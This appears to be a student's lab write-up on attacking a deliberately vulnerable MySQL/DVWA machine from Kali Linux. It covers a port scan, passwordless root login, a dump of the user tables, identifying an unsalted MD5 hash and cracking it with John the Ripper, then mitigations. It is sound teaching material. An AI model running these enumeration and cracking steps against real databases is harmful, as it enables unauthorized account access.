


# LABWORK-2 
 
# Cryptographic Attacks: Cracking Weak Password Hashes and Exploiting Poor Authentication in Databases 	🔐


---
### 🎯 Objectives

- Identify and exploit cryptographic weaknesses in database authentication and password storage.

- Perform offline hash cracking after discovering password hashes in a vulnerable database.

- Investigate real-world cryptographic failures and propose secure solutions.

---

### 🛠️ Tools Used

- Kali Linux (Attacker Machine)

- MariaDB/MySQL (Target Database)

- Wireshark (Packet Sniffing)

- John the Ripper (Hash Cracking)

- hashid / hash-identifier (Hash Detection)

---

## 📌 Task 1: Service Enumeration and Initial Access 


 ### **1.1 Finding the Target IP and updates the package index in Kali Linux 🔍** 

```bash
nmap -Pn -p 3306 192.168.249.128
```


Try to look the target port on metasploit2 open or not which is mysql


```bash
sudo apt update
```


**📋Explanation :**

This command updates the package index in Kali Linux. It ensures your system has the latest information about available software and dependencies before installing anything new, which helps avoid broken or outdated packages.

 ### **Other Setup Commands 🧪**

 
```bash
sudo apt install mariadb-server -y
sudo systemctl start mariadb
sudo systemctl enable mariadb
```


---

 ### **1.2 Verify Setup ✅** 

 ```bash
dpkg -L mariadb-server | grep mysql_secure_installation
```

**Explanation:**
This checks the installation path for mysql_secure_installation, which helps harden MariaDB by setting root passwords and remov

---

 ### **Connection Attempts**

 ```bash
mysql -h 192.168.249.128 -u root --ssl-mode=DISABLED
mysql -h 192.168.249.128 -u root -p --ssl-mode=DISABLED
```

**Issue Encountered:
Both commands failed. Possible causes:**

- The server requires a password.
- SSL/TLS is misconfigured or unsupported.

**Explanation:**

`--ssl-mode=DISABLED` disables SSL negotiation but the server may still expect it. SSL isn't always supported by default, especially in test or misconfigured environments.


**Successful Access:**

 ```bash
mysql -h 192.168.249.128 -u root --skip-ssl
```

--skip-ssl bypasses encryption entirely, sending data (including passwords) in plaintext, posing a significant security risk.

---


## 📌 Task 2 : Enumeration of Users and Authentication Weaknesses 👤 

## **Database Enumeration:**



Here we can see databses that available in MySQL

 ```bash
USE mysql;
```


**Switch to System DB:**

Selects the mysql system database that stores user and permission info

**List Available Tables:**


 ```bash
SHOW TABLES;
```


Displays all tables in the currently selected database.

**View User Table:**

```bash
SELECT User, Host, Password FROM mysql.user;
```


This is a serious security vulnerability which is an example of broken authentication and poor cryptographic practice (i.e., no password hash stored).

- Users with no password (blank field)
- Users with easy-to-crack password hashes
- Any duplicate or strange access rules

### ❔🧐 Question: Is no password a cryptographic failure? 🧐❔

Yes it is and it skips cryptographic protection. A secure system always authenticates users using a cryptographic mechanism (like password hashing + salting).

---

## 📌 Task 3: Password Hash Discovery and Hash Identification

Now that we know MySQL don't have anypassword, let's find a Databasewhich has one, in this case **`DVWA`** or **`Damn Vulnerable Web Application`**

## **Enter DVWA database**

```sql
USE dvwa
```

Now that we're in the database, Lets start digging ⛏️

## **Look for info from user** 

```sql
SHOW TABLES;
```


```sql
SELECT * FROM users LIMIT 5;
```


**📋Explanation:**

Retrieves the first 5 rows only. This avoids loading a large dataset into the terminal and speeds up inspection.


---

 ### **3.1 Identify the hash ✅** 

### Let's try with admin user !!


### Let's try to identidy what hash it is

using :
```
hashid f6fdffe48c908deb0f4c3bd36c032e72  
```


### There's some of possiblities of hash so we need to check its characteristics

As we can see the hash is :

- The length is 32 hex characters (128 bits)
- The digits are 0-9 and hexadecimal ( lower letters a-f only )

### and both of them match the MD5 characteristic ✅


### Now we use another command to mske sure it really is MD5 🧊 


```
hash-identifier  f6fdffe48c908deb0f4c3bd36c032e72  
```


 The results shows that the most possible hash used was either MD5 or MD4

 ---
 ### **Additional Information 🔥** 

### Comparison between different types of hashes 🧐

| **Characteristic**                          | **Hash Type (Guess)**                   |
|--------------------------------------------|-----------------------------------------|
| 32-character hex from an old PHP/MySQL app | → Probably **MD5**                      |
| 40-character hex (starts with 94BDCE...)   | → **SHA-1** used in MySQL 4.1+          |
| Starts with `$1$`, `$5$`, `$6$`            | → **Linux shadow hashes** (MD5, SHA-256, SHA-512) |
| Uppercase 32-char hex, split by `:`        | → **LM/NTLM** (Windows hashes)          |

---

## 📌 Task 4: Offline Hash Cracking 


### First of all.make a file (hash.txt) that consist the hash

 ### **4.1 Use John the Ripper to cracck the hash 🔐** 

 ```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```


**📋Explanation:**

- Raw MD5 means that the hash is an unsalted MD5 hash, where the password is directly hashed without any additional data (like a salt).

- If your hash is salted (MD5 with a salt), you would use a different format (e.g., --format=md5crypt for MD5 with salt).= 

### ✅ Cracked hash a.k.a the password : adminadmin

 ### **If you would like to view the cracked hash :** 

 ```
cat ~/.john/john.pot
```



All the cracked hashes are stores in john.pot

---

## 📌 Task 5: Cryptographic Analysis and Mitigation 


 ### **❌ Issues found :** 

- Login forms using HTTP (not encrypted)
- Passwords stored with weak hashes (MD5/SHA1)
- No salting applied to password hashes
- Cookies may not be marked as secure


 ### **💡Solutions :** 
 - Use HTTPS (SSL/TLS) for all login forms
- Store passwords with bcrypt or Argon2
- Apply salts to all password hashes
- Enable Secure & HttpOnly flags on cookies

---

## 🔍 Summary 

This lab highlights the risks of using weak passwords and insecure hash functions such as unsalted MD5. It demonstrates how easily password hashes can be cracked using tools like John the Ripper. The exercise emphasizes the importance of implementing secure hashing algorithms (e.g., bcrypt, Argon2), enabling HTTPS to prevent plaintext credential transmission, and securing cookies with **`Secure`** and **`HttpOnly`** flags to protect against session hijacking and other web attacks.